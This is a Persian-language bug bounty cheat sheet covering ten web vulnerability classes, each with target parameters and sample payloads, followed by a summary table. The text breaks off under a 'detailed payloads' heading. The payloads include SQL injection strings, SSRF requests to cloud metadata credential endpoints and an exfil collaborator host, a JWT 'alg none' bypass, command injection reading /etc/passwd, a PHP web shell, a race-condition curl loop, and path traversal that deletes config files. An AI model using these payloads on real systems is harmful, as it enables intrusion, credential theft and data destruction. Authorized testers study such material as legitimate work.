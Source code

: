 🚀 P1 Bug Bounty Cheat Sheet (2025)
1. 🔑 IDOR (Insecure Direct Object Reference)

پارامترهای حساس:

```
user_id, account_id, profile_id, order_id, invoice_id, doc_id, uid
```

Payload تست:
```
GET /api/user/profile?user_id=12345   # کاربر A
GET /api/user/profile?user_id=12346   # دسترسی غیرمجاز به کاربر B
```
2. 🔒 Broken Access Control (BAC - فنی)

پارامترهای حساس:
```
role, isAdmin, permission, access_level, group
```

Payload تست:
```
POST /api/updateRole
{"user":"12345","role":"admin"}   # ارتقاء نقش غیرمجاز
```
3. 💉 SQL Injection (Error Based)

پارامترهای حساس:
```
id, query, search, sort, filter, report_id
```

Payload تست:
```
?id=1'   -- Error Based
?id=1' ORDER BY 5-- 
?id=1' UNION SELECT null,null,version()-- 
```
4. 🌐 SSRF (Server-Side Request Forgery)

پارامترهای حساس:
```
url, link, target, callback, feed, redirect, endpoint, webhook
```

Payload تست:
```
url=http://127.0.0.1:22        # تست پورت داخلی
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # AWS metadata
url=http://burpcollaborator.net/abc   # DNS exfil
```
5. 🛑 Authentication Bypass (فنی)

پارامترهای حساس:
```
auth, token, session_id, jwt, sso, bearer
```

Payload تست:
```
Authorization: Bearer null
Authorization: Bearer '' 
Cookie: session_id=123 OR 1=1
jwt={"alg":"none","kid":"1","payload":{"role":"admin"}}
```
6. 💣 RCE (Remote Code Execution)

پارامترهای حساس:
```
cmd, exec, shell, process, run
```

Payload تست:
```
cmd=ls -la; id
exec=whoami && cat /etc/passwd
```
7. 🐚 Shell Upload (نوعی RCE)

پارامترهای حساس:
```
file, upload, avatar, media, image
```

Payload تست (PHP Shell):
```
<?php system($_GET['cmd']); ?>
```

آپلود با نام: shell.php.jpg

دسترسی: http://site.com/uploads/shell.php?cmd=id

8. 📤 Unrestricted File Upload

پارامترهای حساس:
```
upload, file, attachment, document
```

Payload تست:
```
آپلود .htaccess برای اجرای PHP

آپلود فایل evil.svg با JavaScript درون SVG
```
9. ⚡ Race Condition

پارامترهای حساس:
```
coupon, promo, balance, transfer, withdraw
```

Payload تست:
```
# استفاده همزمان از یک کوپن تخفیف
for i in {1..50}; do curl -X POST https://target.com/redeem?coupon=FREE100 & done
```
10. 📂 Path Traversal / Arbitrary File Deletion

پارامترهای حساس:
```
file, path, dir, delete, remove, download
```

Payload تست:
```
download=../../../../etc/passwd
delete=../../../../var/www/html/config.php
```
✅ Quick Notes

ابزار پیشنهادی برای پیدا کردن این پارامترها: Burp ParamMiner, Arjun, NarrowX

اول روی Token / IDOR / File / Redirect / SSRF تمرکز کن (بیشترین P1 Report ها در ۲۰۲۵)

برای اثبات، همیشه PoC کوتاه + اسکرین‌شات + هدر/ریسپانس بذار


===================================================================

# پارامترهای حساس P1 برای تست نفوذ وب در باگ بانتی همراه با پیلودهای نمونه

| نوع آسیب‌پذیری             | پارامترهای حساس              | مثال پیلود (Payload)                                                                                     | توضیح مختصر                           |
|--------------------------|-----------------------------|---------------------------------------------------------------------------------------------------------|-------------------------------------|
| IDOR (Insecure Direct Object Reference) | user_id, id, account_id, document_id | `/api/v1/user/123/profile` → تغییر `123` به شناسه دیگر یا `/download?invoice_id=456` → تغییر مقدار          | دسترسی غیرمجاز به داده‌های دیگران   |
| Broken Access Control (فنی) | Authorization, role, token  | تغییر هدر `Authorization: Bearer <token>` یا تغییر پارامتر `?role=admin`                                 | دور زدن محدودیت‌های دسترسی           |
| SQL Injection (Error Based) | id, username, search        | `' OR 1=1--` در رشته‌های ورودی، مثلاً `?id=1' OR '1'='1`                                               | استخراج داده یا دور زدن کنترل‌ها با خطاهای SQL |
| SSRF (Server-Side Request Forgery) | url, redirect_uri, endpoint, service | `?url=http://169.254.169.254/latest/meta-data` یا `?redirect_uri=http://evil.com`                        | درخواست به منابع داخلی یا هک از راه دور |
| Authentication Bypass (فنی) | token, password, new_password | ارسال درخواست با توکن‌های دستکاری شده یا استفاده از پارامتر `?token=abcdef` بدون اعتبارسنجی صحیح         | نفوذ به حساب بدون مجوز               |
| RCE (Remote Code Execution) | command, exec, input        | `?command=ls` یا تزریق کد‌های مخرب در پارامترهای ورودی مانند `; cat /etc/passwd`                        | اجرای کد دلخواه روی سرور            |
| Shell Upload (نوعی RCE)    | file, upload                | آپلود فایل PHP معکوس مانند `<?php system($_GET['cmd']); ?>`                                            | آپلود فایل مخرب برای کنترل سرور     |
| Unrestricted File Upload  | file, upload, avatar        | آپلود فایل با پسوندهای غیرمجاز مانند `.php`, `.jsp`                                                   | دسترسی و اجرای کد مخرب روی سرور      |
| Race Condition            | quantity, count, index      | ارسال همزمان چند درخواست با `?quantity=-1` یا `?count=2`                                               | ایجاد مشکلات منطقی و دور زدن محدودیت‌ها |
| Path Traversal / Arbitrary File Deletion | file, path, filename       | `?file=../../../../etc/passwd` یا درخواست حذف با `?filename=../../../important_file`                    | دسترسی یا حذف فایل‌های حساس         |

---

### نمونه دقیق پیلودها:

- **IDOR**  

